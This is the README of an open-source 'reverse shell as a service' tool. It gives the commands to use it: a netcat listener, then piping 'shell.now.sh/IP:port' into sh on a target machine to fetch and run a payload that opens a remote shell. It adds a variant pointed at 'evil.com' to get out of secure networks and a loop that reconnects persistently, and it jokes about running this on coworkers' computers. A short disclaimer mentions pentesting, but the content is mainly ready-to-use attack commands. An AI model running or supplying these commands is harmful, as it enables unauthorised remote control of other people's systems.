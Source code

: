 # reverse-shell

> Reverse Shell as a Service - https://shell.now.sh

[![Build Status](https://travis-ci.org/lukechilds/reverse-shell.svg?branch=master)](https://travis-ci.org/lukechilds/reverse-shell)
[![Coverage Status](https://coveralls.io/repos/github/lukechilds/reverse-shell/badge.svg?branch=master)](https://coveralls.io/github/lukechilds/reverse-shell?branch=master)
[![npm](https://img.shields.io/npm/v/reverse-shell.svg)](https://www.npmjs.com/package/reverse-shell)

Easy to remember reverse shell that should work on most Unix-like systems.

The script will detect available software on the target and run the appropriate payload.

## Usage

### 1. Listen for connection

On your machine, open up a port and listen on it. You can do this easily with netcat.

```shell
nc -l 1337
```
### 2. Execute reverse shell on target

On the target machine, pipe the output of https://shell.now.sh/yourip:port into sh.

```shell
curl https://shell.now.sh/192.168.0.69:1337 | sh
```

Go back to your machine, you should now have a shell prompt.

### 3. Don't be a dick

This is meant to be used for pentesting or helping coworkers understand why they should always lock their computers. Please don't use this for anything malicious.

## Demo

<img src="https://i.imgur.com/qqjhxAw.gif" width="808">

## Tips

### Hostname

You can use a hostname instead of an IP.

```shell
curl https://shell.now.sh/localhost:1337 | sh
```

### Remote connections

Because this is a reverse connection it can punch through firewalls and connect to the internet.

You could listen for connections on a server at evil.com and get a reverse shell from inside a secure network with.

```shell
curl https://shell.now.sh/evil.com:1337 | sh
```

### Reconnecting

By default when the shell exits you lose your connection. You may do this by accident with an invalid command. You can easily create a shell that will attempt to reconnect by wrapping it in a while loop.

```shell
while true; do curl https://shell.now.sh/yourip:1337 | sh; done
```

Be careful if you do this to a coworker, if they leave the office with this still running you're opening them up to attack.

## License

MIT © Luke Childs
